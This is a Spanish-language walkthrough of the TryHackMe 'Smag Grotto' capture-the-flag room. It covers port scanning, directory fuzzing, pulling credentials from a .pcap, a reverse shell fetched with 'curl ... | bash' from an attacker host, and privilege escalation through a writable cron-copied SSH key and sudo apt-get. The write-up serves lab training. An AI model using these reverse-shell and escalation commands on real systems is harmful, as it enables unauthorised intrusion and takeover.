










Esta maquina es de dificultad facil, en el cual tiene un sitio que contiene un `.pcap` en el cual analizando con wireshark podemos obtener una credeciales que nos serviran para loguearnos a un panel de ejecución de comandos. Para escalara privilegios haremos uso de una tarea que se ejecutar


- Link : [Smag Grotto](https://tryhackme.com/room/smaggrotto) 
- Created by  [jakeyee](https://tryhackme.com/p/jakeyee)

# Metodología

- Enumeración
  - Escaneo de puertos
  - Enumeración del puerto 80
  - Enumeración de los directorios del sitio web
  - Wireshark
  - Enumeración del cms Subrion
- Explotación
  - RCE
- Escalar Privilegios
  - Crontab
  - Binario apt-get


# Walkthrough

## Enumeración

### Escaneo de puertos

Iniciamos con nusetra herramienta preferida a escanear los puerto de la maquina victima

```java
❯ nmap -p- --open --min-rate 1000 -vvv [IP-VICTIM] -Pn -n  -oG allportsScan
```

Para entender un poco mas de los parametros que lanzamos con `nmap` podemos leer un poco lo siguiente:

`-p-`: Esta opción indica a Nmap que escanee todos los puertos en lugar de un rango específico. El guion ("-") significa "todos los puertos". Esto permite escanear todos los puertos desde el puerto 1 hasta el 65535.

`--open`: Esta opción le dice a Nmap que solo muestre los puertos que están abiertos. Los puertos abiertos son aquellos en los que un servicio está escuchando y aceptando conexiones.

`--min-rate 1000`: Esto establece la velocidad mínima de escaneo en 1000 paquetes por segundo. Cuanto mayor sea la velocidad de escaneo, más rápido se completará el escaneo, pero ten en cuenta que un escaneo más rápido puede ser más intrusivo y podría llamar la atención no deseada.

`[IP-VICTIM]`: Esta es la dirección IP del objetivo que se va a escanear. Debes reemplazarla por la dirección IP que deseas escanear.

`-Pn`: Esta opción indica a Nmap que no realice el descubrimiento de hosts (Ping) antes de escanear los puertos. Puedes usar esto si sabes que el host objetivo no responde a los paquetes de Ping.

`-n`: Esta opción le dice a Nmap que no realice la resolución de nombres DNS. Puedes usarlo si no deseas que Nmap realice búsquedas DNS inversas durante el escaneo.

`-oG allportsScan`: Esta opción le indica a Nmap que genere la salida en formato "greppable" (Grep) y la guarde en un archivo llamado "allportsScan". Este archivo contendrá información detallada sobre los puertos abiertos y otros detalles del escaneo.
Para entender un poco mas de los parametros que lanzamos con `nmap` podemos leer un poco lo siguiente:

`-p-`: Esta opción indica a Nmap que escanee todos los puertos en lugar de un rango específico. El guion ("-") significa "todos los puertos". Esto permite escanear todos los puertos desde el puerto 1 hasta el 65535.

`--open`: Esta opción le dice a Nmap que solo muestre los puertos que están abiertos. Los puertos abiertos son aquellos en los que un servicio está escuchando y aceptando conexiones.

`--min-rate 1000`: Esto establece la velocidad mínima de escaneo en 1000 paquetes por segundo. Cuanto mayor sea la velocidad de escaneo, más rápido se completará el escaneo, pero ten en cuenta que un escaneo más rápido puede ser más intrusivo y podría llamar la atención no deseada.

`[IP-VICTIM]`: Esta es la dirección IP del objetivo que se va a escanear. Debes reemplazarla por la dirección IP que deseas escanear.

`-Pn`: Esta opción indica a Nmap que no realice el descubrimiento de hosts (Ping) antes de escanear los puertos. Puedes usar esto si sabes que el host objetivo no responde a los paquetes de Ping.

`-n`: Esta opción le dice a Nmap que no realice la resolución de nombres DNS. Puedes usarlo si no deseas que Nmap realice búsquedas DNS inversas durante el escaneo.

`-oG allportsScan`: Esta opción le indica a Nmap que genere la salida en formato "greppable" (Grep) y la guarde en un archivo llamado "allportsScan". Este archivo contendrá información detallada sobre los puertos abiertos y otros detalles del escaneo.

**nmap** nos reporta los tres puerto abiertos, de los cuales vamos a seguir enumerando los servicios y versiones que se ejecutan en estos puertos.

```java
PORT   STATE SERVICE REASON
22/tcp open  ssh     syn-ack
80/tcp open  http    syn-ack
```

Enumeros los puertos abiertos

```java
❯ nmap -p22,80 -sV -sC -vv -Pn [IP-ATTACKER] -oN servicesScan
```


`-p22,80`: Esta opción especifica los puertos que se van a escanear. En este caso, se están escaneando los puertos 22, 80. Los números de puerto están separados por comas y no se utiliza el rango de puertos.

`-sV`: Esta opción realiza la detección de versiones de servicios. Nmap intentará determinar qué servicios se están ejecutando en los puertos especificados y mostrará información sobre las versiones de esos servicios.

`-sC`: Activa los scripts de secuencia de comandos (scripts de automatización) de Nmap. Esto permite que Nmap ejecute scripts de detección y enumeración de servicios en los puertos especificados.

`-Pn`: Esta opción indica a Nmap que no realice el descubrimiento de hosts (Ping) antes de escanear los puertos. Si no se puede contactar con el host a través de Ping, Nmap aún intentará escanear los puertos especificados.

`-vvv`: Esto establece el nivel de verbosidad del escaneo en "muy alto". Esto significa que Nmap proporcionará una salida detallada que incluye información adicional sobre el progreso del escaneo.

`[IP-VICTIM]`: Debes reemplazar [IP-VICTIM] con la dirección IP del objetivo que deseas escanear. Este es el host en el que se realizará el escaneo.

`-oN servicesScan`: Esta opción le dice a Nmap que genere la salida en formato "greppable" (Grep) y la guarde en un archivo llamado "servicesScan". Este archivo contendrá información detallada sobre los servicios y versiones detectadas en los puertos especificados.

Al ejecutar `nmap` con los puertos abiertos, nos reporta lo siguiente:


```java
PORT   STATE SERVICE REASON  VERSION
22/tcp open  ssh     syn-ack OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 74:e0:e1:b4:05:85:6a:15:68:7e:16:da:f2:c7:6b:ee (RSA)
| ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQDORe0Df8XvRlc3MvkqhpqAX5/sbUoEiIckKSVOLJVmWb9jOq2r0AfjaYAAZzgH9RThlwbzjGj6r4yBsXrMFB01qemsYBzUkut9Q12P+uly9+SeL6X7CUavLnkcAz0bzkqQpIFLG9HUyu9ysmZqE1Xo6NumtNh3Bf4H1BbS+cRntagn1TreTWJUiT+s7Gr9KEIH7rQUM8jX/eD/zNTKMN9Ib6/TM7TkPxAnOSw5JRfTV/oC8fFGqvjcAMxlhqS44AL/ZziI50OrCX9rMKtjZuvPaW2U31Sr8nUmtd3jnJPjMH2ZRfeRTPybYOblPOZq5lV2Fu4TwF/xOv2OrACLDxj5
|   256 bd:43:62:b9:a1:86:51:36:f8:c7:df:f9:0f:63:8f:a3 (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBN6hWP9VGah8N9DAM3Kb0OZlIEttMMjf+PXwLWfHf0dz6OtdbrEjblgrck0i7fT95F1qdRJHtBdEu5yg4r6/gkY=
|   256 f9:e7:da:07:8f:10:af:97:0b:32:87:c9:32:d7:1b:76 (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIPWHQ800Vx/X5aGSIDdpkEuKgFDxnjak46F/IsegN2Ju
80/tcp open  http    syn-ack Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-title: Smag
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

### Puerto 80

Enumeramos el puerto `80` y podemos ver una web



### Fuzzing

Enumeremos los directorios del sitio web, yo voy a enumerar con `gobuster` tu puedes usar el que prefieras

```java
❯ gobuster dir -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -u http://[IP-VICTIM] -t 100 -x txt,php,html
```

`dir`: Esto indica que estás realizando una búsqueda en nombres de directorios.

`-w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt`: Con esta opción, estás especificando el archivo de lista de palabras que Gobuster utilizará para probar nombres de directorios y archivos. En este caso, se está utilizando el archivo "directory-list-2.3-medium.txt" que se encuentra en el directorio "/usr/share/wordlists/dirbuster/" como fuente de palabras para la fuerza bruta.

`-u http://[IP-VICTIM]`: Esta es la URL del sitio web en el que deseas realizar la búsqueda de nombres de directorios y archivos. En este caso, se está apuntando a "http://[IP-VICTIM]". Gobuster intentará encontrar nombres de directorios y archivos en esta URL.

`-t 100`: Con esta opción, estás especificando el número de hilos que Gobuster utilizará para realizar los ataques de fuerza bruta. En este caso, se están utilizando 100 hilos para acelerar el proceso.

`-x txt,php,html`: Esta opción define las extensiones de archivo que se deben buscar durante el escaneo. Gobuster buscará nombres de directorios y archivos que terminen en ".txt", ".php" o ".html".



`gobuster` nos enumera un un directorio `mail`



En el `http://[IP-VICTIM]/mail` visualizamos un `.pcap` el cual descararemos para poder analizarlo

### Wireshark



En uno de los paquetes hay una peticion `post` el cual tiene información con credenciales y un subdominio

```java
POST /login.php HTTP/1.1
Host: development.smag.thm
User-Agent: curl/7.47.0
Accept: */*
Content-Length: 39
Content-Type: application/x-www-form-urlencoded
username=helpdesk&password=cH4nG3M3_n0wHTTP/1.1 200 OK
Date: Wed, 03 Jun 2020 18:04:07 GMT
Server: Apache/2.4.18 (Ubuntu)
Content-Length: 0
Content-Type: text/html; charset=UTF-8
```
## Explotación

```java
username=helpdesk
password=cH4nG3M3_n0w
```
Con las credenciales que encontramos, vamos a loguearnos en la dirección que web que encontramos en los paquetes del `.pcap`



Al loguearnos nos encontramos con un panel donde podemos ejecutar comandos. Vamos a hacerlo como lo hago yo

### RCE

- Primero, creamos un `ìndex.html` donde estara nuestra revershell

```java
❯ nano index.html
bash -i >& /dev/tcp/[IP-ATTACKER]/4242 0>&1
```
- Segundo, en otra terminal iniciamos un servidor en python3

```
❯ python3 -m http.server 80
```

- Tercero, ejecutamos lo siguiente en el panel donde podemos ejecutar comandos

```java
curl http://[IP-ATTACKER]| bash
```




- Antes de ejecutar debemos de poner `ncat` a la escucha para recibir la shell

## Escalada de priviliegios

### Usuario www-data

Luego de ejecutar, obtnemos una shell



Antes de ello debemos hacer un tratamieto a la `tty`

Enumerando encontraremos que existe una tarea cron

```java
cat /etc/crontab
```

### Crontab

```
*  *    * * *   root    /bin/cat /opt/.backups/jake_id_rsa.pub.backup > /home/jake/.ssh/authorized_keys
```

Esta tarea que lo ejecutar `root` el cual hace una copia de `/opt/.backups/jake_id_rsa.pub.backup` al directorio `home/jake/.ssh/authorized_keys`. Podemos aprovechar ya que tenemos permisos de escritura del archivo `jake_id_rsa.pub.backup` y agregar nuestra `id_rsa.pub` 

Puedes revisar como crear una [clave publica ssh](https://git-scm.com/book/es/v2/Git-en-el-Servidor-Generando-tu-clave-p%C3%BAblica-SSH)


### Usuario jake
Haciendo uso de nuestra `id_rsa` podemos loguearnos sin proporcionar contraseña



Ahora haciendo uso de `sudo -l` podemos enumerar los permisos que tiene `jake` para ejecutar binarios con privilegios.

en la siguiente imagen podemos ver que tenemos permisos de un binario `apt-get`



Haciendo uso de nuestro recurso de [gtfobins](https://gtfobins.github.io/gtfobins/apt-get/#sudo) par poder escalar privilegios a `root`

```java
sudo apt-get update -o APT::Update::Pre-Invoke::=/bin/sh
```

### usuario root



¡VAMOS!

Happy Hacking :)